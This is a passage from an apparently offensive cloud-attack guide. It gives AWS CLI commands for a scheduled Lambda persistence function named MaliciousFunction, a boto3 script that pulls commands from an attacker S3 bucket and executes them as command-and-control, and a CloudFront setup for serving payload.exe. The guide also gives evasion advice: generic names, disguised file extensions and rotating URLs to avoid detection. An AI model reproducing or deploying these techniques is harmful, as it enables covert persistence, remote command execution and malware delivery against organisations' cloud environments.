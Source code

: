        bash

    aws lambda create-function --function-name MaliciousFunction --runtime python3.8 --role arn:aws:iam::123456789012:role/service-role/MyRole --handler lambda_function.lambda_handler --zip-file fileb://function.zip
    aws events put-rule --schedule-expression "rate(5 minutes)" --name MaliciousSchedule
    aws events put-targets --rule MaliciousSchedule --targets "Id"="1","Arn"="arn:aws:lambda:region:account-id:function:MaliciousFunction"

    Recommendations:
        Use generic function names and descriptions.
        Ensure the function appears as if it serves a legitimate purpose in the environment.

Abusing S3 Buckets for C2 and Persistence:

    Description: Attackers can store payloads or configuration files in S3 buckets. They can use scripts to periodically check these buckets for updates, commands, or new payloads.
    Tools: AWS CLI, Python scripts with boto3 (AWS SDK for Python).
    Example (Python script to check for updates):

    python

    import boto3

    s3 = boto3.client('s3')
    bucket_name = 'malicious-bucket'
    file_key = 'commands.txt'

    def check_for_commands():
        try:
            response = s3.get_object(Bucket=bucket_name, Key=file_key)
            commands = response['Body'].read().decode('utf-8')
            execute_commands(commands)
        except Exception as e:
            print(f'Error checking bucket: {e}')

    check_for_commands()

    Recommendations:
        Use encryption to protect sensitive data in S3.
        Periodically rotate the access keys used to access S3.

Leveraging CDNs for Payload Delivery:

    Description: Content Delivery Networks (CDNs) can be used to host and distribute malicious payloads. Attackers can use CDNs to deliver malware quickly and efficiently, leveraging the CDN's global infrastructure.
    Tools: Azure CDN, AWS CloudFront, Google Cloud CDN, custom deployment scripts.
    Example (Deploying a payload using AWS CloudFront):

    bash

        aws cloudfront create-distribution --origin-domain-name mymaliciousbucket.s3.amazonaws.com --default-root-object payload.exe

        Recommendations:
            Use common file extensions (e.g., .jpg, .pdf) to disguise the nature of the payload.
            Frequently change CDN URLs to avoid detection.
